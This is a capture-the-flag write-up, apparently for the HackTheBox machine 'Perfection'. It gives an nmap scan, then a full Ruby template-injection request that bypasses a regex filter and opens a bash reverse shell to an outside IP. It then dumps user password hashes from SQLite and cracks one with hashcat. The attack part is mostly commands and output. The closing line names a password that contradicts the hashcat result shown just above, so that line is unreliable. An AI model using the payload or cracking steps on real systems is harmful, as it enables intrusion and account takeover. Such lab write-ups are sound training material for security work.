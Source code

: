 
# ENUMERATION
## NMAP
```bash
nmap 10.10.11.253 -sC -sV -Pn -p- -T5
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 17:18 EEST
Nmap scan report for 10.10.11.253
Host is up (0.047s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.08 seconds
```
We can see that there is a running webserver on port 80.
# Foothold
All we can see form the webapp is a form for the grades and the Webrick version that indicates that the app is served with Ruby.

We can try to bypass the regex by appending a `\n` to the end of the first word and the opening the reverse shell.

Using Burp we can send the following request.
```bash
category1=Test1%0A<%25%3d+IO.popen("bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.7/4444+0>%261'").readlines()+%25>&grade1=99&weight1=90&category2=test2&grade2=99&weight2=3&category3=test3&grade3=99&weight3=2&category4=test4&grade4=99&weight4=3&category5=test5&grade5=99&weight5=2
```
# Priv Escalation
After gaining the reverse shell we can see that the susan is a sudoer.

Looking around the system we can find an email that talks about a migration and provides us a template for the password

```bash
susan@perfection:~$ ls -la
ls -la
total 48
drwxr-x--- 7 susan susan 4096 Feb 26  2024 .
drwxr-xr-x 3 root  root  4096 Oct 27  2023 ..
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .bash_history -> /dev/null
-rw-r--r-- 1 susan susan  220 Feb 27  2023 .bash_logout
-rw-r--r-- 1 susan susan 3771 Feb 27  2023 .bashrc
drwx------ 2 susan susan 4096 Oct 27  2023 .cache
drwx------ 3 susan susan 4096 Oct 27  2023 .gnupg
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .lesshst -> /dev/null
drwxrwxr-x 3 susan susan 4096 Oct 27  2023 .local
drwxr-xr-x 2 root  root  4096 Oct 27  2023 Migration
-rw-r--r-- 1 susan susan  807 Feb 27  2023 .profile
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .python_history -> /dev/null
drwxr-xr-x 4 root  susan 4096 Oct 27  2023 ruby_app
lrwxrwxrwx 1 root  root     9 May 14  2023 .sqlite_history -> /dev/null
-rw-r--r-- 1 susan susan    0 Oct 27  2023 .sudo_as_admin_successful
-rw-r----- 1 root  susan   33 May 18 14:17 user.txt
-rw-r--r-- 1 susan susan   39 Oct 17  2023 .vimrc
```
Inside the Migration folder we find an sqlite db with the password hashes.
```bash
sqlite> select * from users;
select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```
After creating a wordlist with susan_nasus_ and the hasfile we can use hashcat to append a 9 digit number to the end of the wordlist and compare the generated hash against the one we found in the database.

```bash
 hashcat -m 1400 -a 6 hash perfection_wl ?d?d?d?d?d?d?d?d?d -O
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 7 7435HS, 6851/13766 MB (2048 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Precompute-Init
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 4 MB

Dictionary cache built:
* Filename..: perfection_wl
* Passwords.: 1
* Bytes.....: 13
* Keyspace..: 1000000000
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.           

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a3019934...39023f
Time.Started.....: Sun May 18 18:05:56 2025 (42 secs)
Time.Estimated...: Sun May 18 18:06:38 2025 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (perfection_wl), Left Side
Guess.Mod........: Mask (?d?d?d?d?d?d?d?d?d) [9], Right Side
Guess.Queue.Base.: 1/1 (100.00%)
Guess.Queue.Mod..: 1/1 (100.00%)
Speed.#1.........:  3056.7 kH/s (0.02ms) @ Accel:512 Loops:256 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 125967360/1000000000 (12.60%)
Rejected.........: 0/125967360 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:125967104-125967360 Iteration:0-256
Candidate.Engine.: Device Generator
Candidates.#1....: susan_nasus_981539210 -> susan_nasus_643759210
Hardware.Mon.#1..: Temp: 72c Util: 31%

Started: Sun May 18 18:05:35 2025
Stopped: Sun May 18 18:06:40 2025
```

The root pass is `susan_nasus_643759210` and now we can get the root flag